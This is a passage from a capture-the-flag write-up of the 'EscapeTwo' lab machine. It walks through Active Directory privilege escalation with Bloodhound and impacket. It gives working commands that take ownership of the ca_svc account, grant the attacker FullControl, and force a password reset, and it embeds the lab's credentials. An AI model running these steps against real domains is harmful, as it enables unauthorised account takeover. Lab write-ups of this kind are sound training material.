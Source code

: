 ## From ryan to ca_svc

Looking at Bloodhound, we notice that ryan has **WriteOwner** privilege over ca_svc.

![](/assets/EscapeTwo/EscapeTwo-WOPriv.png)

This means that, using the user ryan, we can first change the owner of the **ca_svc** user, then grants ourself the **GenericAll** permission over the same object and, in the end, force a password change for the **ca_svc** user.

First step, changing the ownership:

```bash
impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

Second step, changing the permissions over the object:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

Third step, forcing a password change:

```bash
net rpc password "ca_svc" "newP@ssword2022" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "dc01.sequel.htb"
```

## From ca_svc to Administrator

By doing an educated guess, based on the name of the user, or by looking at the group membership of the **ca_svc** user, we can assume that an AD Certificate Service is running.
![](/assets/EscapeTwo/EscapeTwo-CertPublisher.png)